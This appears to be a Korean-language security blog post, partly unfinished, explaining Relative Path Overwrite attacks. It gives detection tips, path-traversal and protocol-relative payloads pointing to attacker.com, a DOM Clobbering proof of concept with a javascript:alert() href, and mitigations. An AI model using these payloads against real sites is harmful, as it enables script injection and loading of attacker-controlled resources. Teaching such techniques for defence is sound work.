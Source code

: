 ```yaml
---
layout: post
title: Relative Path Overwrite
subtitle: RPO 상대 경로 사용 시 사용할 수 있는 기법
author: g3rm
categories: Web
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - WEB
  - RPO
  - CSS_Injection
  - Relative_Path_Overwrite
  - DOM_Clobbering
  - Text_Injection
sidebar:
---
```


## Intro
Relative Path Overwrite(RPO)란 해석 그대로 "상대 경로 덮어쓰기"라는 공격 기법? 으로 주로 리소스를 불러오는 경로에서 상대 경로로 된 URL을 덮어씌워 의도치 않는 경로로 요청하게 하도록 하여 대상 파일을 덮어쓸 수 있는 취약점입니다.   
☑️보통 해당 취약점 자체로 활용되기 보다 다른 취약점들과 연계되어 활용됩니다.

상대 경로란 URL에 `Host`가 포함되지 않은 경로로 `assets/js/config.js` 로 구성된 경로입니다.
> RPO에서 말하는 상대 / 절대 경로는 통상적으로 말하는 경로와 다를 수 있습니다.
> Absolute URL : `https://victim.com/path`
> Absolute Path : `/path`
> Relative Path : `path`
   
RPO는 해당 도메인에서 조작되는 것이기 때문에 `SOP`, `CSP` 등 다양한 보안 정책을 우회할 수 있습니다. 
## Detect & Exploit 
### Detect
어떤 공격과 연계를 하느냐에 따라 탐지 방법이 여러 개 있을 수 있습니다.
- 리소스(`<script src>`, `<link href>` 등) 주소에 관여할 수 있는 지 파악하면 됩니다.
- URL Rewrite가 적용되어 `victim.com/rpo.html`,  `victim.com/rpo.html/` 에 대해서 동일하게 `rpo.html` 를 내려주는 지 파악하면 됩니다.
- 

### Exploit
#### 리소스 주소 관여 가능 시
단순하게 주소에 관여하는 것이 끝이긴 합니다... ㅎㅎ😅
```HTML
# Path Traversal
/../../../../vuln.js

# Protocol relative URL
//attacker.com
```
#### URL Rewrite 적용되어 있을 시
이 경우 DOM Clobbering과 연계할 수 있습니다.
자체적으로 만든 동결(`freeze()`) 객체에 대해 아래의 방법으로 오류를 발생시켜 해당 객체를 불러오지 못하도록 한다면 DOM Clobbering 공격이 가능해 집니다.
>해당 내용은 추후에 DOM Clobbering 주제로 글 작성 시 이관 예정입니다.
```HTML
#config.js
window.CONFIG = {
	location: "/"
}

#victim.com/vuln.html -> victim.com/config.js
<script src="config.js"></script>

#victim.com/vuln.html/ -> victim.com/vuln.html/config.js -> error
<script src="config.js"></script>

#POC
<a id="CONFIG">1'deps</a>
<a id="CONFIG" name="location" href="https://attacker.com or javascript:alert()">2'deps</a>
```

추가적으로 하위 경로를 파라미터로 인식하여 
```HTML

```

#### CSS Injection

## Security Measures

단순하게 상대경로를 사용하지 않는 것이지만, 추가적으로 `<script src>`, `<link href>` 등 리소스를 불러오는 태그의 주소를 사용자가 임의로 수정하지 못하도록 하는 방안도 있습니다.

## References
[Large-Scale Analysis of Style Injection by Relative Path Overwrite](https://dl.acm.org/doi/fullHtml/10.1145/3178876.3186090)   
[Relative Path Overwrite](https://support.detectify.com/support/solutions/articles/48001048955-relative-path-overwrite)   